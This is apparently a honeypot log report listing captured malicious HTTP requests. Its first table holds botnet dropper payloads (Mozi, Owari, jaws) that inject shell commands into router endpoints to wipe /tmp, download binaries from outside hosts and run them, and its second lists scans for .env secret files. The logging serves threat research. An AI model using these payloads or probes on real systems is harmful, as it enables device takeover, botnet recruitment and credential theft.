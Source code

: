 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.203.72.48  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                         |
| 104.236.3.45   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                  |
| 103.181.64.243 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.181.64.243:48441/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 45.230.66.37   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.37:11417/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                  |
| 58.146.59.84   | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                        |
| 47.101.204.123 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                  |
| 123.11.75.155  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                         |
| 77.239.219.24  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                           |
|-----:|----------------------:|:----------------------------------------------------------------------------------------------------------------------------------|
|   35 |                     5 | CONNECT www.vip-scdkey.com:443 HTTP/1.1                                                                                           |
|  163 |                     3 | GET /docker/postgres/.env HTTP/1.1                                                                                                |
|  168 |                     3 | GET /core/persistence/.env HTTP/1.1                                                                                               |
|  174 |                     3 | CONNECT ipv4.icanhazip.com:443 HTTP/1.1                                                                                           |
|  188 |                     3 | GET /code/web/.env HTTP/1.1                                                                                                       |
|  190 |                     3 | GET /docker/db/.env HTTP/1.1                                                                                                      |
|  192 |                     3 | GET /favicons/.env HTTP/1.1                                                                                                       |
|  199 |                     3 | GET /docker/database/.env HTTP/1.1                                                                                                |
|  203 |                     3 | GET /code/api/.env HTTP/1.1                                                                                                       |
|  204 |                     3 | GET /errors/.env HTTP/1.1                                                                                                         |
|  207 |                     3 | GET /dotfiles/.env HTTP/1.1                                                                                                       |
|  208 |                     3 | GET /films/.env HTTP/1.1                                                                                                          |
|  213 |                     3 | GET /docker/webdav/.env HTTP/1.1                                                                                                  |
|  220 |                     3 | GET /custom/.env HTTP/1.1                                                                                                         |
|  224 |                     2 | GET /srv6_controller/node-manager/.env HTTP/1.1                                                                                   |
|  225 |                     2 | GET /static_user/.env HTTP/1.1                                                                                                    |
|  226 |                     2 | GET /staging/.env.local HTTP/1.1                                                                                                  |
|  227 |                     2 | GET /zmusic-frontend/.env HTTP/1.1                                                                                                |
|  228 |                     2 | GET /st-js-be-2020-movies-two/.env HTTP/1.1                                                                                       |
|  229 |                     2 | GET /stackato-pkg/.env HTTP/1.1                                                                                                   |
|  230 |                     2 | GET /staging/.env.production HTTP/1.1                                                                                             |